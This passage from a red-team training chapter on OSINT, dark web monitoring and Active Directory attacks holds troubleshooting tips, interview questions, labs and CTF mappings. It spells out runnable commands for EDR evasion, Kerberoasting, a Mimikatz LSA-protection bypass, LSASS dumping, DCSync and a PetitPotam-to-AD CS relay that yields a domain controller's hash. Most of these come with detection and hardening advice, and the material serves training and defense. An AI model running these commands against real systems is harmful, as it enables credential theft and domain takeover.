**Workload identities in breach data.** Service principal credentials checked into public GitHub repos or appearing in breach dumps are exposed via `servicePrincipalRiskDetections` in Graph, not the user-facing endpoints ([Microsoft Graph](https://learn.microsoft.com/en-us/graph/api/resources/identityprotection-overview?view=graph-rest-1.0)). Many teams monitor user accounts only and miss non-human identity exposure entirely.

**Defender view:** Correlate Entra `leakedCredentials` detections with on-prem Defender for Identity alerts. Force reset + session revocation on every confirmed match. Monitor AD free-text attributes with the Secure Score "Remove discoverable passwords" recommendation. Enforce phishing-resistant MFA on all human and service accounts.

---

## 65. Troubleshooting

Practical fixes for the failures you will hit during OSINT collection, dark web monitoring, and credential-exposure triage.

**BloodHound/SharpHound collection is flagged by AV/EDR.** SharpHound is widely signatured. Workarounds: run `SharpHound.exe -c DCOnly` (pure LDAP, no workstation touch, lowest footprint) ([SpecterOps](https://bloodhound.specterops.io/collect-data/ce-collection/sharphound)); execute in-memory via C2 `execute-assembly`; build obfuscated; or use ADExplorer (Sysinternals) which is stealthier and not flagged, then convert snapshots via ADExplorerSnapshot + BOFHound ([BHIS](https://www.blackhillsinfosec.com/bloodhound-data-collection/)). On Linux, `bloodhound-ce-python -c DCOnly` avoids member-host connections entirely ([dirkjanm](https://github.com/dirkjanm/BloodHound.py)).

**Rubeus kerberoast returns only AES tickets.** You want RC4 (etype 0x17) because it is offline-crackable. Use the opsec filter: `Rubeus.exe kerberoast /rc4opsec` — this uses tgtdeleg and filters to only RC4-capable non-AES accounts ([SpecterOps](https://docs.specterops.io/ghostpack-docs/Rubeus-mdx/commands/roasting/kerberoast)). If every account uses AES, RC4 is disabled on the domain (good for them, bad for you) and you must crack AES tickets at hashcat `-m 19600`/`19700` instead of `-m 13100`.

**Mimikatz `sekurlsa::logonpasswords` shows blank output.** LSA Protection (RunAsPPL) is enabled. Bypass: load the driver `!+` then `!processprotect /process:lsass.exe /remove` then dump ([gentilkiwi](https://github.com/gentilkiwi/mimikatz)). Alternatively use the LOLBIN dump path and parse offline: `rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id lsass.dmp full` then `sekurlsa::minidump lsass.dmp`. Credential Guard blocks the PT methods on Win10+/Server 2016+.

**`ntlmrelayx` ESC8 chain fails — no cert issued.** Most common cause: EPA (Extended Protection for Authentication) is enabled on the AD CS web enrollment, breaking NTLM relay. Confirm with `certipy find` — if ESC8 is not listed as vulnerable, the relay surface is closed. Second cause: SMB signing enforced on the relay target. Enumerate relayable hosts first: `nxc smb 10.0.0.0/24 --gen-relay-list relay_targets.txt` ([NetExec](https://github.com/Pennyw0rth/NetExec)).

**Entra `leakedCredentials` riskDetections query returns empty.** Check license (full risk details need P2), check the token scope (`IdentityRiskEvent.Read.All`), and confirm PHS is enabled for on-prem accounts. Detections are offline and batched multiple times per day — a fresh breach may take hours to surface ([Microsoft](https://learn.microsoft.com/en-us/entra/id-protection/concept-identity-protection-risks)).

**Tor scraping gets blocked or returns stale data.** Rotate circuits, respect per-site rate limits, and validate that the .onion is still live before parsing. Use RansomLook's Playwright + Lacus pipeline for screenshots, or Ransomwatch's Selenium/geckodriver over Tor SOCKS ([RansomLook](https://github.com/RansomLook/RansomLook), [ransomwatch](https://github.com/joshhighet/ransomwatch)). OnionScan (nao1215 fork for Tor v3) detects dead links and deanonymization leaks ([nao1215/onionscan](https://github.com/nao1215/onionscan)).

**Defender view:** Every troubleshooting fix above has a defensive dual. DCOnly collection is hard to detect — deploy canary objects that emit Event 4662 on read to catch BloodHound/Kerberoasting/DCSync enumeration ([NSA/CISA advisory](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)). LSA Protection + Credential Guard + the LSASS ASR rule (GUID `9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2`) block the Mimikatz paths ([Microsoft ASR](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide)).

---

## 66. Frequently Asked Questions (FAQ)

**Q: Is buying credentials from dark web markets legal for a red team?**
A: No. Purchasing stolen data funds the criminal economy and is illegal in most jurisdictions. ATT&CK models this as T1597.002 (Purchase Technical Data) and T1589.001 (Credentials) ([MITRE](https://attack.mitre.org/techniques/T1589/001/)), but authorized red teams use breach-DB aggregators with proper licensing (DeHashed, IntelX, Snusbase) or managed services (CrowdStrike Falcon Intelligence Recon+, NetSPI, Unit 42) that source and sanitize the data lawfully ([byoniq/Redteam-Runbook](https://github.com/byoniq/Redteam-Runbook)).

**Q: Does Microsoft's leaked-credential detection access the dark web?**
A: Yes, indirectly. Microsoft's MSTIC and Digital Crimes Unit monitor dark web forums, paste sites, breach dumps, and law-enforcement seizure data. Discovered credentials are validated against the tenant's current password hashes — a detection is only emitted on a confirmed match, always HIGH risk ([Microsoft](https://learn.microsoft.com/en-us/entra/id-protection/concept-identity-protection-risks)). Plaintext passwords are not stored and are deleted shortly after processing.

**Q: What is the difference between Entra ID Protection's leakedCredentials and a HIBP lookup?**
A: HIBP tells you an email appeared in a breach; it does not confirm the password still works. Entra's `leakedCredentials` validates the discovered password against the tenant's current hash — it is a verified-exposure signal, not a heuristic ([Microsoft](https://learn.microsoft.com/en-us/graph/api/resources/identityprotection-overview?view=graph-rest-1.0)). This is why it is always HIGH risk.

**Q: How fast do stolen credentials reach dark web markets?**
A: Roughly 24-48 hours from infostealer infection to log listing. The full credential-leak-to-ransomware timeline has compressed to about 7 days: Day 0 personal device infected, Day 1 log on Telegram, Day 2 IAB validates session-cookie access, Day 3 access listed for resale, Day 7 ransomware deploys ([Saptang Labs](https://saptanglabs.com/from-infostealer-to-enterprise-breach-the-7-day-journey-of-stolen-credentials/)). The company's first indication is usually the ransom note.

**Q: Can Kerberoasting be detected if the attacker uses AES?**
A: Yes, but the RC4 etype (0x17) signal is the highest-fidelity indicator. Event ID 4769 with RC4 encryption is the Defender for Identity Kerberoasting alert (external ID 2410) trigger ([ATADocs](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md)). With AES, detect anomalous TGS volume per user/session instead. The structural fix is gMSAs (120-char auto-rotated) or dMSAs (Windows Server 2025, device-bound) ([Microsoft](https://www.microsoft.com/en-us/security/blog/2024/10/11/microsofts-guidance-to-help-mitigate-kerberoasting/)).

**Q: Is the AD forest a security boundary?**
A: Microsoft says yes; SpecterOps/harmj0y proved it is not. A compromised DC with unconstrained delegation in one forest can compromise a trusting foreign forest via the MS-RPRN printer bug plus TGT delegation across trusts ([SpecterOps](https://specterops.io/blog/2018/11/28/not-a-security-boundary-breaking-forest-trusts/)). Disable Print Spooler on DCs and monitor Event 4769 for forwarded TGTs.

**Q: What MITRE tactic does OSINT fall under?**
A: Reconnaissance (TA0043), all PRE-platform. Six core techniques: T1590 (network), T1592 (host), T1589 (identity), T1591 (org), T1595 (active scanning), T1596 (open technical databases) ([MITRE](https://attack.mitre.org/tactics/TA0043/)). The only platform mitigation is M1056 (minimize externally available sensitive data) — detection focuses on post-compromise stages.

---

## 67. Interview Questions (Beginner)

**Q1: What is OSINT and which MITRE tactic does it map to?**
A: Open Source Intelligence — gathering publicly available data to build a target profile. It maps to ATT&CK Reconnaissance (TA0043), techniques T1590 (victim network info), T1589 (victim identity info), and T1596 (search open technical databases) ([MITRE](https://attack.mitre.org/tactics/TA0043/)). All are PRE-attack techniques with M1056 as the only platform mitigation.

**Q2: Name three tools for email/subdomain harvesting.**
A: theHarvester (emails, subdomains, hosts from search engines/PGP servers), recon-ng (modular framework with workspace DB), and SpiderFoot (200+ source automation). For certificate-transparency subdomain mining, use crt.sh or Censys `parsed.names: target.com` ([SpecterOps](https://specterops.io/blog/2018/10/02/open-source-intelligence-gathering-techniques-automation-and-visualization/)).

**Q3: What is Kerberoasting and what event ID detects it?**
A: An attacker with any TGT requests a TGS for an SPN-enabled account; the ticket is encrypted with the service account's password hash. RC4-encrypted (etype 0x17) tickets are offline-crackable with hashcat `-m 13100`. Detection: Event ID 4769 with RC4 encryption type from Defender for Identity alert 2410 ([ATADocs](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md)). Mitigation: gMSAs, remove RC4.

**Q4: What is the difference between password spraying and credential stuffing?**
A: Password spraying (T1110.003) tries one password against many accounts to avoid lockouts. Credential stuffing (T1110.004) uses breached username/password pairs at a new service, betting on reuse. Stuffing detection: Event 4625 (LogonType 3/10) plus 4771/4776 on the DC, with success (4624) = CRITICAL ([df00tech](https://df00tech.com/detections/T1110.004)).

**Q5: What does Have I Been Pwned do and how does it relate to NIST?**
A: HIBP aggregates breach corpuses for email-lookup. NIST SP 800-63B-4 (July 2025) mandates verifiers SHALL compare prospective passwords against a blocklist including "passwords obtained from previous breach corpuses" — whole-password comparison, reject if matched ([NIST](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63B-4.pdf)). HIBP's corpus is the de-facto data source.

**Q6: What is a stealer log and why does it bypass MFA?**
A: An infostealer (Lumma, StealC, RedLine, Raccoon, Vidar) harvests saved browser passwords AND active session cookies from an infected endpoint. Replaying a stolen session cookie continues an already-authenticated session, so MFA never fires. Only FIDO2/passkeys resist this. Maps to T1539 (Steal Web Session Cookie) and T1555 ([Ransomnews](https://ransomnews.com/stealer-logs-explained-2026/)).

**Q7: What is DCSync and what access rights does it require?**
A: DCSync (T1003.006) abuses MS-DRSR `IDL_DRSGetNCChanges` replication to pull all password hashes. Requires the control access rights DS-Replication-Get-Changes and DS-Replication-Get-Changes-All, normally granted only to DCs and Domain/Enterprise Admins ([MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b5fc7747-3020-418c-bdb3-6c9f78cc8315)). Detection: Event 4662 from a non-DC account; Defender for Identity alert 2006.

---

## 68. Interview Questions (Intermediate)

**Q1: Walk through the OSINT-to-AD-compromise kill chain.**
A: T1589.001 (buy/leak creds) -> T1110.004 (credential stuffing) or T1078 (Valid Accounts) -> internal recon (T1018/T1087) -> Kerberoasting/DCSync -> Golden/Silver Ticket persistence ([NSA/CISA](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)). The pre-compromise controls that break this earliest are credential-exposure monitoring (NIST AU-13(1)) and breached-password blocklists (SP 800-63B-4).

**Q2: How do you validate breach-credential exposure programmatically in a Microsoft tenant?**
A: `GET https://graph.microsoft.com/v1.0/identityProtection/riskDetections?$filter=riskEventType eq 'leakedCredentials'` returns confirmed matches. Remediate via `POST /identityProtection/riskyUsers/confirmCompromised` with `userIds`. For workload identities, query `servicePrincipalRiskDetections`. Token needs `IdentityRiskEvent.Read.All` ([Microsoft Graph](https://learn.microsoft.com/en-us/graph/api/resources/identityprotection-overview?view=graph-rest-1.0)).

**Q3: Explain the PetitPotam -> AD CS ESC8 -> domain takeover chain.**
A: PetitPotam (CVE-2021-36942) coerces a DC to authenticate to attacker-controlled IP via MS-EFSRPC. ntlmrelayx relays that NTLM to the AD CS HTTP web enrollment (no EPA) with `--adcs --template DomainController`, obtaining a DC certificate. `certipy auth -pfx dc.pfx` yields the DC's NT hash as Administrator. Patch: apply CVE-2021-36942, enable EPA on CA web enrollment, enforce SMB signing ([Certipy](https://github.com/ly4k/Certipy), [topotam/PetitPotam](https://github.com/topotam/PetitPotam)).

**Q4: How does Entra Password Protection's banned list differ from HIBP?**
A: Entra's global banned list is derived from Microsoft's real-world spray-attack telemetry, NOT third-party breach lists. It is applied automatically to all tenants, cannot be disabled, and contents are not published. The on-prem DC Agent validates via a filter DLL; DCs never talk to the internet and no cleartext passwords leave the DC. Custom banned list (up to 1,000 terms) requires P1/P2 ([Microsoft](https://learn.microsoft.com/en-us/entra/identity/authentication/concept-password-ban-bad-on-premises)).

**Q5: What is MACE and how does it change dark-web signal handling?**
A: The Microsoft Advanced Correlation Engine (MACE) in Security Exposure Management takes leaked-credential signals, identifies affected users, validates whether discovered Entra credentials correspond to real usable passwords, and maps potential attack paths from the compromised account to critical assets. This turns a flat breach list into a prioritized, graph-based remediation workflow ([Microsoft](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/from-signal-to-strategy-closing-attack-paths-with-identity-intelligence/4491856)).

**Q6: Compare PTES passive vs semi-passive vs active OSINT postures.**
A: Passive uses only archived third-party data, never touches the target, maps to T1596/T1590. Semi-passive looks like normal Internet traffic, only published DNS/metadata, not attributable in real time. Active includes port scans, vuln scanning, dir bruteforce — should be detected, maps to T1595. Pre-engagement scope/ROE and 20% time padding are mandatory before any recon ([PTES](https://pentest-standard.readthedocs.io/en/master/intelligence_gathering.html)).

**Q7: How would you detect BloodHound collection on a defended network?**
A: DCOnly LDAP-only collection is hard to catch. Deploy canary objects (honeyusers, honey-SPNs) that emit Event 4662 on read — any read of these by a normal user is high-fidelity recon detection. Monitor unusual LDAP query volume and the specific SharpHound query patterns. Defender for Identity flags SharpHound-style enumeration ([NSA/CISA](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)).

---

## 69. Interview Questions (Advanced)

**Q1: An attacker has a service account's NTLM hash from a breach dump but the account has AES Kerberos only. How do they escalate?**
A: Overpass-the-hash: use the NTLM hash to request a TGT via RC4, then request TGS tickets. Rubeus: `Rubeus.exe asktgt /user:svc /rc4:HASH /ptt`. If RC4 is disabled on the domain, the NTLM hash cannot mint Kerberos tickets — but it is still valid for NTLM authentication (SMB, WMI) if the service accepts NTLM. Defender: disable NTLMv1/v2 where possible, enforce LDAP/SMB signing, monitor Event 4776 and 4624 LogonType 3 ([GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)).

**Q2: Design a Sentinel pipeline that turns dark-web breach data into Identity Protection remediation.**
A: Use a content-hub solution (CybleVision, XposedOrNot, or TacitRed) that polls a dark-web API via a managed-identity Logic App, normalizes to a custom log table (e.g., `XonBreachDetails_CL`), and fires an analytics rule. The rule joins exposed accounts against `SigninLogs` to match recent sign-ins. On match, trigger a SOAR playbook that calls Graph `riskyUsers/confirmCompromised`, forces password reset, and revokes sessions via `revokeSignInSessions` ([Azure-Sentinel](https://github.com/Azure/Azure-Sentinel/blob/master/Solutions/Cyble%20Vision/Analytic%20Rules/Alerts_Leaked_Credentials.yaml), [Microsoft Graph](https://learn.microsoft.com/en-us/graph/api/resources/identityprotection-overview?view=graph-rest-1.0)).

**Q3: How does dMSA (Windows Server 2025) structurally fix Kerberoasting, and what is the Ouroboros risk?**
A: A delegated Managed Service Account stores its secret only on the DC and retrieves it via a KERB-DMSA-KEY-PACKAGE delivered through a TGT instead of LDAP `msDS-ManagedPassword` retrieval. The secret is device-bound and protected by Credential Guard, so there is no offline-crackable TGS. The Akamai Ouroboros finding: controlling dMSA permissions can inherit the superseded legacy account's privileges — so dMSA migration must revoke the old account's rights, not just create the dMSA ([Microsoft](https://www.microsoft.com/en-us/security/blog/2024/10/11/microsofts-guidance-to-help-mitigate-kerberoasting/), [Akamai](https://www.akamai.com/blog/security-research/ouroboros-technique-how-fits-dmsas-security-model)).

**Q4: A red team finds plaintext passwords in AD `description` attributes. Map the full attack and detection path.**
A: Any authenticated user can read `description`, `info`, `adminComment`. Microsoft's AI detection scans these for credential patterns and base64 (Aug 2025, 40,000+ exposed across 2,500 tenants). Attack: enumerate with `Get-ADUser -Filter * -Properties description | ? {$_.description -match "pass"}`, parse the credential, use it for T1078 Valid Accounts. Detection: the Secure Score "Remove discoverable passwords in Active Directory account attributes" recommendation; monitor anomalous LDAP reads of these attributes; Defender for Identity posture assessment ([Microsoft](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/leaving-the-key-under-the-doormat-how-microsoft-defender-uses-ai-to-spot-exposed/4439870)).

**Q5: You must invalidate Golden Tickets after a krbtgt compromise. What is the exact procedure and why twice?**
A: Reset the krbtgt account password twice, at least 10 hours apart (the 10h aligns with the max Kerberos ticket lifetime). The first reset invalidates tickets signed with the old hash, but tickets minted between the two resets remain valid until the second reset. Defender for Identity flags krbtgt passwords older than 180 days. After reset, verify no TGTs survive by checking Event 4769 for tickets with the old encryption type ([Microsoft forest recovery](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password)).

**Q6: How would you deanonymize a dark web marketplace operator using only OSINT?**
A: Run OnionScan against the .onion to find OPSEC leaks: Apache mod_status exposure (co-hosted services, clearnet IPs — 9-10% of sites per the 2023 arXiv study), EXIF metadata in images (GPS/camera/timestamps), SSH key fingerprints linking co-hosted services, analytics/tracker IDs, and cryptocurrency addresses. Pivot PGP keys across marketplace migrations (vendors reuse keys — see the DEF CON 33 "Pretty Good Pivot" talk). Cross-reference crypto addresses via Breadcrumbs. Maintain analyst hygiene: Tails/Whonix, no clearnet identity from Tor ([OnionScan](https://github.com/s-rah/OnionScan), [gl0bal01/intel-codex](https://github.com/gl0bal01/intel-codex/blob/HEAD/Investigations/Techniques/sop-darkweb-investigation.md), [arXiv 2312.00545](https://ar5iv.labs.arxiv.org/html/2312.00545)).## 70. Scenario-Based Interview Questions

Interview questions for OSINT and dark web analysis roles test whether a candidate can reason through the full pre-compromise-to-compromise chain, not just recite tool names. Below are scenario-style questions with the key points a strong answer must hit.

**Q1: A client's CEO appears in a fresh infostealer log on a Telegram channel. Walk through your response.**
Strong answer: confirm the log is real and not reused/scraped (check timestamp, machine GUID, cookie freshness); identify which device and identity is exposed (corporate SSO vs personal); assume the session cookie bypasses MFA — FIDO2/passkeys are the only control that resists cookie replay (T1539, T1555) ([ransomnews.com/stealer-logs-explained-2026](https://ransomnews.com/stealer-logs-explained-2026/)); force password reset AND revoke all sessions/tokens (Entra `revokeSignInSessions`, Graph API); check whether the cookie was replayed by querying SigninLogs for the client IP and unusual user-agent; validate the source device and run EDR/Malwarebytes scan; feed the IOC (cookies, IPs) to the SOC. Map to T1589.001 and T1586.

**Q2: You find your client's domain in a breach database with 200 plaintext passwords. How do you prioritize?**
Match against active Entra ID accounts first — Entra ID Protection's `leakedCredentials` detection only fires on a confirmed match against the current valid hash, so it is HIGH confidence ([learn.microsoft.com/entra/id-protection/concept-identity-protection-risks](https://learn.microsoft.com/en-us/entra/id-protection/concept-identity-protection-risks)). Prioritize privileged accounts and accounts with no MFA. Use the Defender "Password protection > Leaked Credentials" tab for bulk reset/disable ([learn.microsoft.com/defender-for-identity/password-protection](https://learn.microsoft.com/en-us/defender-for-identity/password-protection)). Do not assume passwords match — password reuse is the real risk, so check the breach corpuses against current hashes. This maps to NIST SP 800-63B-4 breached-password blocklist screening ([nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63B-4.pdf](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63B-4.pdf)).

**Q3: A red team engagement scope says "passive OSINT only." What does that exclude?**
Per PTES, passive means only archived third-party data — no traffic that touches the target's infrastructure ([pentest-standard.readthedocs.io](https://pentest-standard.readthedocs.io/en/master/intelligence_gathering.html)). Excluded: nmap port scans, active directory enumeration, any authenticated query against the client's tenant, active subdomain brute forcing. Allowed: WHOIS, passive DNS, crt.sh, Wayback, breach DB lookups, LinkedIn Google dorks. Anything the target can see in their logs moves you into semi-passive or active (T1595). Always document the posture in the ROE.

**Q4: How would you detect Kerberoasting in your environment?**
Event ID 4769 (TGS request) with encryption type 0x17 (RC4-HMAC) is the primary signal — modern domains default to AES, so RC4 is a downgrade/forgery indicator ([github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md)). Defender for Identity alert 2410 fires on this. Correlate with high TGS volume from a single account and unusual source processes. Canary/honey SPN accounts emit 4769 on read and give high-fidelity detection. Mitigation: gMSAs (120-char auto-rotated), dMSAs on Server 2025, disable RC4 (enabled by default removal in Win11 24H2/Server 2025) ([attack.mitre.org/techniques/T1558/003](https://attack.mitre.org/techniques/T1558/003/)).

**Q5: Distinguish ATT&CK T1596 from T1597.**
T1596 (Search Open Technical Databases) covers free/public registries — passive DNS, WHOIS, certificate transparency, Shodan/Censys. T1597 (Search Closed Sources) covers paid or criminal-market data — threat-intel vendor feeds (T1597.001) and purchasing data from dark-web/cybercrime markets (T1597.002) ([attack.mitre.org/techniques/T1597](https://attack.mitre.org/techniques/T1597/)). A red teamer buying stealer logs from Russian Market is T1597.002; querying crt.sh is T1596.003.

## 71. Hands-on Practice Labs

Practice builds muscle memory. The labs below are ordered from foundational to advanced and align with CRTP learning objectives.

**Lab 1 — Passive OSINT on a target domain (1-2h).** Pick a target you own or an authorized bug-bounty scope. Run the chain: `theHarvester -d target.com -b all -f report.html`; `curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq '.[].name_value' | sort -u`; Shodan `org:"Target"` queries; Hunter.io email harvest; HIBP breach lookup. Output: an attack-surface report (subdomains, exposed services, leaked emails). Maps to T1590, T1592, T1596 ([specterops.io/blog/2018/10/02/open-source-intelligence-gathering-techniques-automation-and-visualization](https://specterops.io/blog/2018/10/02/open-source-intelligence-gathering-techniques-automation-and-visualization/)).

**Lab 2 — BloodHound collection and pathfinding (1h).** Against the ADLab: `bloodhound-ce-python -d corp.local -u user -p pass -ns 10.0.0.1 -c All --zip` (Linux) or `SharpHound.exe -c DCOnly` (lowest footprint). Import into BloodHound CE. Run the built-in "Find All Domain Admins" and "Shortest Paths to Domain Admins from Owned" queries. Try `--stealth --throttle 5000 --jitter 30` and observe the difference in LDAP noise. Maps to T1087.002, T1069.002 ([github.com/dirkjanm/BloodHound.py](https://github.com/dirkjanm/BloodHound.py)).

**Lab 3 — Kerberoasting end to end (30min).** `Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt` (opsec mode filters AES accounts). Crack with `hashcat -m 13100 hashes.txt rockyou.txt`. Defender side: enable Defender for Identity, watch Event 4769 etype 0x17. Remediate by moving the cracked service account to a gMSA ([docs.specterops.io/ghostpack-docs/Rubeus-mdx/commands/roasting/kerberoast](https://docs.specterops.io/ghostpack-docs/Rubeus-mdx/commands/roasting/kerberoast)).

**Lab 4 — AS-REP roasting (20min).** `Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt` against accounts with "Do not require Kerberos preauthentication" UAC flag. Crack `-m 18200`. Detect with Event 4771 (Kerberos pre-auth failed). Fix: disable the UAC flag on all non-service accounts ([attack.mitre.org/techniques/T1558/004](https://attack.mitre.org/techniques/T1558/004/)).

**Lab 5 — DCSync (30min).** From a Domain Admin context: `secretsdump.py corp.local/Administrator:pass@DC_IP -just-dc-user krbtgt`. Detect with Event 4662 (Directory Service Access, access mask 0x113f / DS-Replication-Get-Changes-All) from a non-DC account. Defender for Identity alert 2006 fires on this. Map to T1003.006 ([learn.microsoft.com/openspecs/windows_protocols/ms-drsr/b5fc7747-3020-418c-bdb3-6c9f78cc8315](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b5fc7747-3020-418c-bdb3-6c9f78cc8315)).

**Lab 6 — PetitPotam + AD CS ESC8 relay (45min).** Terminal 1: `ntlmrelayx.py -t http://<CA>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController`. Terminal 2: `python3 PetitPotam.py -u user -p pass <attacker_ip> <dc_fqdn>`. Terminal 3: `certipy auth -pfx dc.pfx -dc-ip <DC>`. This yields the DC hash as Administrator. Detect MS-EFSRPC traffic to non-DC hosts; mitigate with CVE-2021-36942 patch and EPA on AD CS web enrollment ([github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)).

**Lab 7 — Dark web leak-site monitoring (30min).** Stand up RansomLook or ransomwatch in a VM with Tor. `poetry run scrape && poetry run parse`. Query the JSON API for your client's domain. This is the defender's early-warning signal that an access broker has listed the org ([github.com/RansomLook/RansomLook](https://github.com/RansomLook/RansomLook)).

## 72. Vulnerable Labs & Practice Platforms (CRTP / HTB / PG / THM)

| Platform | Focus | Relevance to this chapter |
|---|---|---|
| CRTP (Altered Security ADLab) | AD attack/defense, BloodHound, Kerberos, ACL abuse, LAPS, gMSA | Core: AD recon, Kerberoasting, DCSync, Golden Ticket. The ADLab is the canonical Kerberos/credential lab. |
| Hack The Box (HTB) | Boxes, Pro Labs, AD tracks | Forest/Dante/Offshore Pro Labs chain OSINT-to-AD; many boxes teach Kerberoasting, AS-REP, ADCS ESC1-8. |
| Proving Grounds (PG) | Offensive Security practice + Windows boxes | Practice boxes mirror OSCP/CRTP AD scenarios; good for noPac, Zerologon, PrintNightmare. |
| TryHackMe (THM) | Guided rooms | "Joker", "Active Directory", "Kerberos" rooms; "Cyber Weapons Lab" for dark web OSINT basics. |
| Pentester Academy (PWA) | Structured AD tracks | Deep Kerberos, ADCS, RBCD modules; complements CRTP. |
| RangeForce / CyberDefenders | Blue-team SOC labs | Defender side: detecting 4769 RC4, 4662 DCSync, LSASS access — pairs with the attacker labs above. |

**CRTP-specific mapping.** The CRTP curriculum (Altered Security ADLab) covers PowerView/AD PowerShell enumeration, Kerberoasting, AS-REP roasting, DCSync, Golden Ticket, ACL abuse (GenericAll/WriteDacl), unconstrained/constrained/RBCD delegation, LAPS, gMSA, and the tier model. Every attacker technique in this chapter's labs (70-71) has a direct CRTP module. The Defender view comes from the NSA/CISA "Detecting and Mitigating AD Compromises" advisory ([media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)), which lists the same 17 techniques and the matching hardening controls — use it as the defender companion to CRTP.

**Build-your-own lab.** A free local option: two Windows Server 2019 VMs (DC + member) and one Windows 10/11 client on VirtualBox/VMware, domain `corp.local`. Add a few users, a service account with an SPN and weak password, a gMSA, and an AD CS role with a vulnerable template. This reproduces 80% of CRTP scenarios. Snapshots let you reset between attacks. Run PingCastle and Purple Knight against it for the defender's-eye view ([pingcastle.com](https://www.pingcastle.com/), [semperis.com/purple-knight](https://www.semperis.com/purple-knight/)).

## 73. CTF Challenges & Related Vulnerabilities

CTFs sharpen speed and pattern recognition. The table maps common CTF AD/OSINT challenge types to the named vulnerabilities and ATT&CK techniques they exercise.

| CTF challenge type | Vulnerability / technique | ATT&CK | Key signal |
|---|---|---|---|
| Zerologon box | CVE-2020-1472 (Netlogon all-zero IV) | T1068 | Reset DC machine account, then DCSync. Event 5827-5831. |
| PrintNightmare box | CVE-2021-34527 / 1675 (MS-RPRN opnum 89) | T1068, T1547.012 | spoolsv.exe child process; PrintService EID 808. |
| noPac box | CVE-2021-42278 + 42287 | T1078.002 | Event 4742 (machine account rename), 4724. |
| Kerberoasting box | T1558.003 (no CVE — protocol design) | T1558.003 | Event 4769 etype 0x17; Rubeus/GetUserSPNs. |
| ADCS ESC1-8 box | AD CS misconfig (Certifried CVE-2022-26923, ESC15/EKUwu CVE-2024-49019) | T1212, T1552.007 | certipy find -vulnerable; CA enrollment EID 4886/4887. |
| PetitPotam + ESC8 relay | CVE-2021-36942 | T1210, T1557 | MS-EFSRPC to non-DC; DC cert issued. |
| ProxyLogon/Shell box | CVE-2021-26855 / 34473 (Exchange) | T1190 | web shell write; OAB ExternalUrl abuse. |
| Snowflake/credential stuffing | Infostealer log replay (UNC5537) | T1078, T1110.004 | No MFA, stale creds; 79.7% prior exposure. |

**Approach pattern.** Most AD CTF boxes follow: enumerate (BloodHound/ldapsearch/ldeep) -> find a misconfig (Kerberoastable, AS-REP, ACL abuse, ADCS) -> escalate (DCSync, noPac, Zerologon, relay) -> read the flag. The OSINT CTFs (Trace Labs, OSINT Dojo challenges) instead test pivoting: a username -> breach DB -> email -> social profile -> geolocation. Both reward a methodical checklist over tool memorization.

**Vulnerability-driven study.** CISA KEV is the single best OSINT source for which CVEs are actively producing breach data ([cisa.gov/known-exploited-vulnerabilities-catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)). Every CVE in this chapter's research — Log4Shell, ProxyLogon, MOVEit, Citrix Bleed, Zerologon, PrintNightmare, PAN-OS, FortiOS — is KEV-listed, meaning defenders see them in the wild and red teamers should practice them. Pair each CVE with a HTB/PG box or a local vulnerable VM to internalize both the exploit and the detection.

**Defender pivot.** After solving a box, spend equal time on the detection: which Event ID fires, which Sysmon rule would catch it, which Defender for Identity alert maps to it. This is what separates a CTF player from a red teamer.

## 74. Key Takeaways, Further Reading & References

**Key takeaways.**

1. OSINT and dark web analysis are pre-compromise Reconnaissance (TA0043) and Resource Development (TA0042). The only platform mitigation is M1056 — minimize externally available sensitive data. Detection is weak here by design; defenders win by catching the post-compromise stages that follow ([attack.mitre.org/techniques/T1589](https://attack.mitre.org/techniques/T1589/)).

2. Infostealer logs are now the dominant initial-access vector. Session cookies bypass MFA entirely; only FIDO2/passkeys resist. The credential-leak-to-ransomware timeline has compressed to roughly 7 days, with logs on markets within 24-48h of infection ([saptanglabs.com/from-infostealer-to-enterprise-breach-the-7-day-journey-of-stolen-credentials](https://saptanglabs.com/from-infostealer-to-enterprise-breach-the-7-day-journey-of-stolen-credentials/)). Stolen credentials became Mandiant's #2 initial infection vector in 2024 ([cloud.google.com/blog/topics/threat-intelligence/m-trends-2025](https://cloud.google.com/blog/topics/threat-intelligence/m-trends-2025)).

